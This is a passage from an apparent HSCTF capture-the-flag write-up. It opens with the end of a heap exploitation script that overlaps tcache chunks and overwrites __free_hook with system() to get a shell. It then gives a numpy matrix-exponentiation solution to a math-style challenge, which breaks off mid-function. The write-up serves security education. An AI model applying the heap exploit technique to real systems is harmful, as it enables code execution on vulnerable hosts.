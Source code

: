 ```python
    success("system: %s"%hex(system))
    success("freehook: %s"%hex(freehook))

    # now unsorted bin is overlap with tcache 0x60 chunks
    push(4, "a"*0x40)
    # pause()
    push(4, "b"*0x30 + p64((freehook - 0x42)| 0x69000000000000))

    # pause()
    for i in range(6):
        push(4, "A"*0x48)

    push(2, "A"*0x48)
    push(2, "A"*0x42 + p32(system & 0xffffffff) + p16(system >> 32))

    # from now just create a chunk (push 1/bin/sh) and free it several times (pop1) until pop shell

    p.interactive()

if __name__ == "__main__":
    solve()
```
# miscellaneous
## count-your-blessings-if-you-can
### Description
even a preschooler could solve this ~~math~~ computer science challenge. it's as easy as one, two, three, four, five, six, seven...

(Note: the PoW is 5 minutes long) nc count-your-blessings-if-you-can.hsctf.com 1337
### Solution
![](count-your-blessings-writeup_3.pdf)
### Solution 2
my real slow blessings rainbow table generator by recurrence
still asymmetrically faster than pure (n x n)(n x n) matrix mult though 
```python
import numpy as np

def recover_short(n, mat):
    mat2 = np.zeros((n, n), object)
    mat2[:,0] = mat
    for i in range(1, n):
        mat2[i:,i] = mat2[i-1:-1,i-1]-mat[i:]
    mat2[:-1,-1] = mat[1:]
    for i in range(n - 2, 0, -1):
        mat2[:i,i] = mat2[1:i+1,i+1]+mat[1:i+1]
    return mat2

def arrexp_short(n, mat, p):
    if p == 1:
        return np.array(mat)
    else:
        half = arrexp_short(n, mat, p >> 1)
        temp = np.matmul(recover_short(n, half), half) >> precisionbit
        if p & 1:
            temp = np.matmul(recover_short(n, temp), mat) >> precisionbit
        return temp

def fibo_short(n):
```